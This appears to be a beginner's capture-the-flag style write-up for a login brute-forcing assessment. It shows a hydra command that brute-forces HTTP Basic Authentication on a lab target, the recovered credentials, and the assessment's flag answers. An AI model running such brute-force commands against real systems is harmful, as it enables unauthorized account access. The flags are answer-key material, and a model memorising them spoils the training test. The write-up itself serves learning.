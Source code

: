 
Hello Hackers!

Welcome to my First Blog. This is my first time writing a writeup so please correct me if i write something wrong.

First, We spawn the target and head over to new tab to see what's going on


![alt text](/Login-Brute-Forcing/assets/skill-assessment1/01.png)

We see that we can't establish connection yet. and Looking at the question of this assessment. We can see that the target has Basic HTTP Authentication on the webpage to restrict us from seeing the contents

Lets Luanch hydra and try to brute force this.

```
hydra -L /home/<username>/SecLists/Usernames/top-usernames-shortlist.txt -P /home/<username>/SecLists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -V 94.237.53.81 http-get / -s 49717 -f
```
![alt text](/Login-Brute-Forcing/assets/skill-assessment1/2.png)
![alt text](/Login-Brute-Forcing/assets/skill-assessment1/3.png)

There, we found the credentials

```
admin:Admin123
```

Lets try loggin with our browser now and enter the credentials we found.

![alt text](/Login-Brute-Forcing/assets/skill-assessment1/4.png)

![alt text](/Login-Brute-Forcing/assets/skill-assessment1/5.png)

There we go, Bingo


`Congratulations Hackers!!` we found our flags

```
Flag1 : Admin123
Flag2 : satwossh
```

Remember the username we found as it will be needed in skill-assessment2

This marks the end of this section. See you in next blog~~~